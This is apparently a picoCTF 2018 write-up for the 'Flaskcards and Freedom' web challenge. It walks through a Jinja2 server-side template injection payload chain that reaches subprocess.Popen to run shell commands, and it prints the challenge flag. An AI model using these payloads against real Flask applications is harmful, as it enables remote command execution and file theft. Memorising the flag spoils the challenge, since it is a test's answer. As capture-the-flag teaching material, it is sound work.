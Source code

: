 ```yaml
---
layout: writeup
title: 'Web Exploitation 900: Flaskcards and Freedom'
level:
difficulty:
points:
categories: []
tags: []
flag: picoCTF{R_C_E_wont_let_me_be_85e92c3a}
---
```

## Challenge

There seem to be a few more files stored on the flash card server but we
can't login. Can you?

http://2018shell1.picoctf.com:56944

## Solution

Looks like we can do more advanced things with the SSTI vulnerability
from the [previous Flaskcard challenge](#)

We find this great description about remote code execution (rce) through
server side template injection (SSTI):

* https://www.lanmaster53.com/2016/03/09/exploring-ssti-flask-jinja2/
* https://www.lanmaster53.com/2016/03/11/exploring-ssti-flask-jinja2-part-2/

*Greatly simplified, `__mro__` allows us to go back up the tree of
inherited objects in the current Python environment, and
`__subclasses__` lets us come back down. So what's the impact on the
search of a greater exploit for SSTI in Flask/Jinja2? By starting with a
new-type object, e.g. type str, we can crawl up the inheritance tree to
the root object class using `__mro__`, then crawl back down to every
new-style object in the Python environment using `__subclasses__`. Yes,
this gives us access to every class loaded in the current python
environment.*

Let's try it:

{% raw %}
    input: {{ ''.__class__.__mro__ }}

    result: (<class 'str'>, <class 'object'>)
{% endraw %}

now, let's try to access the `object` class and find all the subclasses
loaded into the app:

{% raw %}
    input: {{ ''.__class__.__mro__[1].__subclasses__() }}

    result: [<class 'itertools.compress'>, <class 'formatteriterator'>,
    <class 'apt_pkg.ActionGroup'>, <class 'flask_wtf.csrf.CSRFProtect'>,
    <class 'sqlalchemy.sql.naming.ConventionDict'>, <class 'sqlalchemy.util.langhelpers.PluginLoader'>,
    <class 'werkzeug.formparser.MultiPartParser'>, <class 'werkzeug.wrappers.ResponseStream'>,
    <class 'jinja2.utils.LRUCache'>, <class 'operator.methodcaller'>, <class 'code'>,

    [..] (~750 more classes)

    <class 'click.core.Parameter'>, <class 'wtforms.fields.core.Field'>, <class 'subprocess.Popen'>,
    <class 'zipfile.LZMACompressor'>, <class 'itertools._tee'>, <class 'wtforms.validators.Regexp'>,
    <class 'werkzeug.wsgi.DispatcherMiddleware'>, <class '_ctypes._CData'>, <class 'itertools.chain'>]

{% endraw %}

Screenshot of how this looks on the website:

![](writeupfiles/flaskcards_freedom_ss.png)

So these are all the python classes we have access to, around 770 of
them. Popen looks interesting,
and we determine it is number 760 in the list:

{% raw %}
    input: {{ ''.__class__.__mro__[1].__subclasses__()[760] }}

    result: <class 'subprocess.Popen'>

{% endraw %}
Let's try to run it, we'll start with a simple `pwd`:

{% raw %}
    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('pwd',shell=True).communicate() }}
    result: (None, None)
{% endraw %}

hmm, it is not outputting stdout; normally we would add
`stdout=subprocess.PIPE`, but we don't have
access to `subprocess`, only `subprocess.Popen` is loaded, but this
turns out to just be the integer `-1`:

{% raw %}
    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('pwd',shell=True,stdout=-1).communicate() }}
    result: (b'/problems/flaskcards-and-freedom_4_2cd670d54e75a9ed7cd0e9b76816fc59\n', None)

{% endraw %}

yay! so we can run any shell command! Now to get the flag..

The challenge description mentioned there were files, so let's do an
`ls`:

{%raw%}
    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('ls',shell=True,stdout=-1).communicate() }}
    result: (b'app\nflag\nserver.py\nxinet_startup.sh\n', None)

ok, looks like we need to read the file named `flag`

    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('cat flag',shell=True,stdout=-1).communicate() }}
    result: (b'picoCTF{R_C_E_wont_let_me_be_85e92c3a}', None)
{% endraw %}

![](writeupfiles/flaskcards_freedom_flag.png)

whoo \\o/

